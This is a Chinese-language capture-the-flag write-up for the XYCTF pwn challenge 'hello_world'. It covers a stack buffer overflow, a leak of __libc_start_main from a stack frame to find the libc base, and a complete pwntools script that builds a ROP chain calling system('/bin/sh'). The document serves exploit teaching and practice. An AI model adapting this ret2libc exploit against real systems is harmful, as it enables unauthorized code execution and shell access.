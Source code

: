 ```yaml
---
title: '[xyctf] hello_world'
date: 2024-11-28 1:41 +0800
categories: [ctf,pwn]
tags: [stack_leak,64bit,__libc_start_main]
---
```


**反编译分析**

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  init();
  printf("%s", "please input your name: ");
  read(0, buf, 0x48uLL);
  printf("Welcome to XYCTF! %s\n", buf);
  printf("%s", "please input your name: ");
  read(0, buf, 0x48uLL);
  printf("Welcome to XYCTF! %s\n", buf);
  return 0;
}
```

乍一看非常常规的`leak_libc`，这道题目特殊之处在于`pop rdi`的rop链被删除了，所以我们不能通过泄漏got表的方式泄漏出libc，需要泄漏栈帧的内容，通过相对偏移确定`__libc_start_main`的地址，进一步泄漏出`libc`。再通过`libc`中的`rop`链得到`shell`。

寻找偏移方法：在pwndbg中通过 `distance &__libc_start_main {栈帧泄漏的地址}`。

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF('./vuln')
libc = ELF('./libc.so.6')
io = gdb.debug('./vuln')
padding = 0x28

payload1 = b'A'*(padding-1)+b'B'
io.sendlineafter('please input your name: ',payload1)
io.recvuntil(b'B')

libc_start_main_addr = u64(io.recv(6).ljust(8,b'\x00'))+0xb6
log.info('libc_start_main_addr => ',hex(libc_start_main_addr))

libc_base = libc_start_main_addr - libc.sym['__libc_start_main']
sys_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
rdi_pop_addr = 0x000000000002a3e5 + libc_base       #: pop rdi ; ret
ret_addr = 0x0000000000029139 + libc_base      		  #: ret

payload2 = b"A"*padding + p64(ret_addr) + p64(rdi_pop_addr) + p64(bin_sh_addr) + p64(sys_addr)

io.sendlineafter('please input your name: ',payload2)
io.interactive()

```

